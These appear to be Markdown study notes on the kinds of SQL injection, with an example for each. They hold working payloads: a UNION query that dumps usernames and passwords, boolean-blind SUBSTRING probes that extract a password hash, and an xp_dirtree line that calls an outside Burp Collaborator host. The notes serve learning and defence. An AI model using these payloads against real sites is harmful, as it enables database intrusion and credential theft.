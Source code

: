 ```yaml
---
dg-publish: true
---
```

---
# OWASP top 10 web vuln:

![](../../_attachments/Pasted%20image%2020250202004548.png)

---

# Types of SQL Injection

![](../../_attachments/Pasted%20image%2020250202005406.png)

## In-band (Classic)

In-band SQLi occurs when the attacker uses the same communication channel to both launch the attack and gather the result of the attack. Retrieved data is presented directly on the application web page.

- Easier to exploit than other categories of SQLi.

### Error-Based SQLi

Error-based SQLi is an in-band SQLi technique that forces the database to generate an error, giving the attacker information upon which to refine their injection.

#### Example:

**Input:**

```sql
www.random.com/app.php?id='
```

**Output:**

```
You have an error in your SQL syntax, check the manual that corresponds to your MySQL server version ...
```

### Union-Based SQLi

Union-based SQLi is an in-band SQLi technique that leverages the `UNION` SQL operator to combine the results of two queries into a single result set.

#### Example:

**Input:**

```sql
www.random.com/app.php?id=' UNION SELECT username, password FROM users --
```

**Output:**

```
carlos
afibh9cjnkuwcsfobs7h
administrator
tn8f921skp5dzoy7hxpk
```

---

## Inferential (Blind)

Inferential SQLi occurs when there is no direct transfer of data via the web application. However, the attacker can still reconstruct the information by sending specific requests and observing the resulting behavior of the database server.

- Just as dangerous as in-band SQL injection.
- Takes longer to exploit than in-band SQL injection.

### Boolean-Based Blind SQLi

Boolean-based SQLi is a blind SQLi technique that uses Boolean conditions to return different results depending on whether the query returns `TRUE` or `FALSE`.

#### Example:

**Input URL:**

```sql
www.random.com/app.php?id=1
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1
```

**Payload #1 (False):**

```sql
www.random.com/app.php?id=1 AND 1=2
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1 AND 1=2
```

**Payload #2 (True):**

```sql
www.random.com/app.php?id=1 AND 1=1
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1 AND 1=1
```

**Users Table:**

```
Administrator / e3c33e889e0e1b62cb7f65c63b60c42bd77275d0e730432fc37b7e624b09ad1f
```

**Extracting Data Example:**

```sql
www.random.com/app.php?id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```

**Backend Query:**

```sql
SELECT title FROM product WHERE id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 's'
```

If nothing is returned on the page → `False` → `'s'` is NOT the first character of the hashed password.

Try another letter:

```sql
www.random.com/app.php?id=1 AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'e'
```

If a title is returned on the page → `True` → `'e'` IS the first character of the hashed password.

### Time-Based Blind SQLi

Time-based SQLi is a blind SQLi technique that relies on the database pausing for a specified amount of time, then returning the results, indicating a successful SQL query execution.

#### Example Query:

If the first character of the administrator's hashed password is `'a'`, wait for 10 seconds.

- **Response takes 10 seconds →** First letter is `'a'`
- **Response does not take 10 seconds →** First letter is not `'a'`

---

## Out-of-Band SQLi

Out-of-band SQLi occurs when an attacker triggers an out-of-band network connection to a system they control. This technique is less common but can be very powerful.

- A variety of protocols can be used (e.g., DNS, HTTP).

#### Example Payload:

```sql
EXEC master..xp_dirtree '//0efdymgwlo5w9inae8mg4dfrgim9ay.burpcollaborator.net/a' --
```

---

This properly formatted Markdown should now be readable and structured well for any documentation or reference purposes!